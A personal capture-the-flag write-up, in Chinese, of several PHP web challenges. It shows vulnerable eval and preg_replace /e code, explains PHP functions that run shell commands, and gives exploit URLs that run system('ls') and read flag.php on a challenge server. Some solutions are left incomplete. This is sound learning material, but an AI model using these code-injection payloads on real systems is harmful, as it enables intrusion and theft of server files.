




# md5

```php+HTML
<?php
highlight_file(__FILE__);
include ("flag.php");
error_reporting(E_ALL & ~E_NOTICE);
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
        echo $flag;
    }
?>
```

我又忘了！！！

# dangerous_func1_1

```php+HTML
 <?php
error_reporting(0);
highlight_file(__FILE__);
#include "flag.php";
$key=preg_replace("/flag/e",$_GET["param"],"can_you_get_flag?");
echo $key;
?> can_you_get_?
```

preg_replace — 执行正则表达式的搜索和替换 

搜索subject中匹配pattern的部分， 
以replacement进行替换。

preg_replace函数原型:

mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])   

/e 修正符使 preg_replace() 将 replacement 参数当作 PHP
代码,提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。

查看有哪些函数可以执行系统命令

## system()

```
string system ( string $command [, int &$return_var ] )
```

**$command**为执行的命令，**&return_var**可选，用来存放命令执行后的状态码

**system()函数**执行有回显，将执行结果输出到页面上

## passthru()

```
void passthru ( string $command [, int &$return_var ] )
```

和**system函数**类似，**$command**为执行的命令，**&return_var**可选，用来存放命令执行后的状态码

执行有回显，将执行结果输出到页面上

## exec()

```php
string exec ( string $command [, array &$output [, int &$return_var ]] )
```

$command是要执行的命令

$output是获得执行命令输出的每一行字符串，$return_var用来保存命令执行的状态码（检测成功或失败）

exec()函数执行无回显，默认返回最后一行结果

```php
<?php
	echo exec("whoami")
?>
```

## shell_exec()

```php
string shell_exec(string &command)
```
&command是要执行的命令
shell_exec（）函数默认无回显，通过echo可将执行结果输出到页面

```php
<?php
	echo shell_exec("whoami")
?>
```

http://47.103.13.216:32769/?param=system(%22ls%22)



得到里面有个flag.php的文件

file() 函数把整个文件读入一个数组中。


利用file

http://47.103.13.216:32769/?param=eval(var_dump(file(%22flag.php%22)))



# where_is_flag_1

```php+HTML
<?php
error_reporting(0);
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>
```

可变变量，举个栗子

```
$a=hello;
$$a=$hello;
```

超全局变量：PHP 中的许多预定义变量都是“超全局的”，这意味着它们在一个脚本的全部作用域中都可用。

$GLOBALS — 引用全局作用域中可用的全部变量

$GLOBALS 这种全局变量用于在 PHP 脚本中的任意位置访问全局变量（从函数或方法中均可）。

PHP 在名为 $GLOBALS[index] 的数组中存储了所有全局变量。变量的名字就是数组的键。

http://47.103.13.216:32770/?hello=GLOBALS




# where_is_flag_2

```php
<?php
include "flag.php";
$a =@$_REQUEST['hello'];
@eval( "var_dump($a);");
show_source(__FILE__);
?>
```

http://47.103.13.216:32771/?hello=GLOBALS 不行

http://47.103.13.216:32771/?hello=file(%22flag.php%22) 可行，但是有两个flag，有个是假的



然后file_get_contents(),fopen(),fread(),fgets()[读单行]，都不行

# find_password_1

啊我又忘了怎么猜出用户名的

假装我猜到了JNCTF，然后爆破，就能拿到flag

